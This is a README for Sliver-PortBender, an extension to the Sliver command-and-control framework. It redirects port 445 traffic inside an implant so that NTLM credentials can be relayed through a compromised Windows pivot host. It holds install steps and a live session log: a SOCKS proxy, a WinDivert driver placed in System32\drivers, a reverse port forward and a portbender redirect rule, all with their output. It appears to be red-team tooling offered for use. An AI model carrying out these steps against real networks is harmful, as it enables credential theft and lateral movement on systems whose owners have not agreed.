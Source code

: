 # Sliver-PortBender

An **extension to Sliver C2**, written as a **learning excercise**, that allows to **manage multiple redirections of traffic, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying in Sliver** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. 
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other binaries**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

## Usage

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

## Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```


